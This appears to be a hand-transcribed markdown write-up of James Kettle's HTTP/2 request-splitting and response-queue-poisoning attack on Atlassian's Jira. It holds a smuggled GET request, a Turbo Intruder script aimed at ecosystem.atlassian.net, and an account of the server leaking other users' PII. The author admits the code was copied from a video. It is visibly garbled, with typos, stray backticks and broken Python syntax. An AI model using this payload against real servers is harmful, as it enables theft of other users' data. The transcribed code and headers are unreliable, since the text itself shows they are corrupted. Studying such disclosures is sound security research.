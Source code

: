 **The original GET request:**

>GET /secure/ QuickSearch.jira HTTP/1.1
>Host: ecosystem.atlassian.net
>Foo: bar*~Host: ecosystem.atlassian.net^ `~`  ^ GET /robots.txt HTTP/1.1*~Foo: bar
>

Can use multiple new lines in the request to split the header

---
*Attenion reader: Warning,  the following Turbo Intruder request, original GET requests and responses were copied by hand, line for line from very small font from a video of James conducting this attack. Some headers , spelling and names, may be incorrect. )

**The exact Turbo Intruder script used against Atlasian by James Kettle**

> def  queueRequests(target, wordlists):
> 		engine = RequestEngine=(endpoint=https://ecosystem.atlassian.net :443,
> 													concurrentConnections=5,
> 													requestsPerConnection=10,
> 													engine=Engine.HTTP2,
> 													pipeline=False
> 													)
> 		attack = `'''GET /secure/QuiclSearch.jira HTTP/1.1
> `Host: ecosystem.atlassian.net
> `Foo: bar*~Host: ecosystem.atlassian.net^ `~`  ^ GET /robots.txt HTTP/1.1*~Foo: bar
>
>`'''
>		for i in range(5000):
>		engine.queue(target.req)
>
>def handleResponse(req, interesting):
>      table.add(req)
>
>
>
>

**The Python script above triggers two distinct responses **
- a normal one 
- and the robots.txt file. 

>**However, the actual result was something else entirely.**

---
The server started sending  responses intended for other Jira users, including a vast quantity of sensitive information and PII.

The root cause was a small optimization James made when crafting the payload. He decided that instead of using `\r\n` to smuggle a Transfer-Encoding header, it'd be better to use a `double-\r\n` to terminate the first request, enabling him to directly include his malicious prefix in the header:

**It was H2.X Request Splitting - Resp Que Poisining**

 **The GET Request :**
>GET /secure/ QuickSearch.jira HTTP/1.1
>Host: ecosystem.atlassian.net
>Foo: bar*~Host: ecosystem.atlassian.net^ `~`  ^ GET /robots.txt HTTP/1.1*~Foo: bar
>
 